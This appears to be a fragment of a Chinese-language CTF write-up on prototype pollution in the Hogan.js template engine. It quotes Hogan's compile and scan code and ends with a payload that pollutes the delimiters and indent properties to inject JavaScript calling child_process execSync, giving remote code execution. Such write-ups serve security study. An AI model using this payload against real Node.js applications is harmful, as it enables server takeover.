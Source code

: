 但是我们 function 没法使用

hogan 中指定自定义分隔符`options.delimiters`，我们可以通过 polluting 来设置`Object.prototype.delimiters`。

我们来看下具体内容

```bash
Hogan.compile = function(text, options) {
  options = options || {};
  ...
  template = this.generate(this.parse(this.scan(text, options.delimiters), text, options), text, options);
  return this.cache[key] = template;
}

Hogan.scan = function scan(text, delimiters) { // this parses the template into AST
  ...
  if (delimiters) {
    delimiters = delimiters.split(' ');
    otag = delimiters[0];
    ctag = delimiters[1];
  }
  ...
}
```

`options.delimiters`被传递到`Hogan.scan()`，它从 派生出开始标记标记 ( `otag`) 和结束标记标记 ( `ctag`) `options.delimiter`。

那就说找到一个`>`就可以在周围解析代码，因为题目中给了一段 html 代码，所以找到太容易了

```bash
__proto__ [delimiters]=tr %0a'
__proto__ [indent]=/*"));return process.mainModule.require(`child_process`).execSync(`/flag`).toString()//*/
```

这样设置即可 rce
